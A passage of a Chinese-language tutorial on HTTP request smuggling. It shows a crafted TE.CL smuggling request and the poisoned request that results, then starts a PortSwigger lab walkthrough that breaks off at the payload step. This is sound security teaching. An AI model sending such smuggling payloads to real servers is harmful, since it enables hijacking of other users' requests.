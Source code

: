 #### TE.CL vulnerabilities

如果要确认一个TE.CL漏洞，我们可以发送如下请求：

```plain
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0
```

如果目标系统存在漏洞且被攻击成功，那么从GET /404开始的所有内容都会被后端服务器视为属于接收到的下一个请求，这将导致后续的"正常"请求如下所示：

```plain
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 146

x=
0

POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

下面我们通过一个靶场进行简单的演示：  
靶场地址：[https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses](https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses)  
测试演示：  
Step 1：访问靶场并点击"ACCESS THELAB"进入到靶场  
[![](assets/1704418275-46c9cd32217bdc84880f10ff08ca49c3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154841-833198f2-aa0c-1.png)  
Step 2：使用burpsuite抓包并构造如下恶意请求载荷